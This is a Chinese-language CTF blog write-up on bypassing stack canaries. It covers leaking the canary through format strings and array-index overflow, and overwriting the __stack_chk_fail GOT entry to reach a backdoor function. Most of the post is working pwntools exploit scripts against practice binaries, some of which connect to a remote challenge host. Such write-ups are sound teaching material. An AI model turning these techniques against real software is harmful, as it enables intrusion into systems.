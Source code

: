 ```yaml
---
title: 「PWN」canary的绕过和泄露思路
tags: ['CTF', 'Pwn', ]
categories: ['CTF']
authors: [nova]


---
```


准备研究一下不同保护机制下的绕过，然后就准备进heap了

今天先来看一下Canary

<!--truncate-->

# Leak Canary

绕过Canary的主要一种方式就是泄露Canary的值，通常需要根据格式化字符串或者题目的一些输出来进行。

## bin

这是一题最基础的格式化字符串泄露Canary的题目

![pseudocode](https://cdn.novanoir.moe/img/image-20220116194731361.png)

![checksec](https://cdn.novanoir.moe/img/image-20220116195013327.png)

同时，有直接cat flag的后门函数，所以我们只需要泄露出canary的值，并溢出到后门函数就好。

通过GDB看到canary在字符串的第七个参数位置，直接任意地址读canary就好

exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'i386'
context.os = 'linux'

sh = process('./bin')

payload = b'%7$x'
# gdb.attach(sh, 'b printf')
sh.sendline(payload)
canary = int(sh.recv(), 16)
print(canary) 
getflag_addr = 0x0804863B
payload = b'A'*100 + p32(canary) + b'A'*12 + p32(getflag_addr)
sh.sendline(payload)
sh.interactive()

```

## pwn1

这是用到了数组下标溢出的知识，但本质也是一样的。

通过数组下标溢出修改它的上限判定，再泄露canary

（按理来说应该可以直接修改数组下标到返回地址，直接修改返回地址，但是还没搞出来，同样的脚本写着写着就segment fault了，再改回去也不行了，程序员的疑问+1）

给出两个exp

exp1:

```python
from pwn import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')

for i in range(23):
    sh.recvuntil(b'Your choice:')
    sh.sendline(b'1')
    sh.recvuntil(b'Please input the pos:')
    sh.sendline(b'%d' % i)
    sh.recvuntil(b'Please input the number:')
    sh.sendline(b'0')

#gdb.attach(sh, 'b puts')


sh.recvuntil(b'Your choice:')
sh.sendline(b'2')
sh.recvuntil(b'How many?')
sh.sendline(b'24')
sh.recvuntil(b"result:")
canary = int(sh.recvline())
calc_root_addr = int(0x4012BD)
sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.recvuntil(b"What's your name?")
payload = b'A'*(0x20-0x08) + p64(canary) + b'A'*0x08 + p64(calc_root_addr)
sh.sendline(payload)
sh.interactive()

```

exp2:

```python
from pwn import *
context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

#sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')


sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'25')
#gdb.attach(sh, 'b puts')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'4199101')

sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.sendline(b'')
sh.interactive()
```



# Hijack stack_chk_fail

修改`stack_chk_fail`函数的got表地址，让它执行时直接跳转到后门函数

这样再栈溢出就可以了

主要还是靠一手格式化字符串任意地址写(让人怀疑主题（)

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./bin3')
elf = ELF('./bin3')

stack_chk_fail_got = elf.got['__stack_chk_fail']
backdoor_addr = 0x040084E

payload = fmtstr_payload(6, {stack_chk_fail_got: backdoor_addr})
print(payload)
sh.sendline(payload + b'A'*0x100)
sh.interactive()

```

> 顺带提一嘴，其实我对fmtstr的大数字覆盖还是挺搞不懂的，不过pwntools居然自带了fmtstr_payload来给你算，挺好的



# Brute-Force

Fork进程会让canary不变，可以爆破

~~还没有找到题目~~


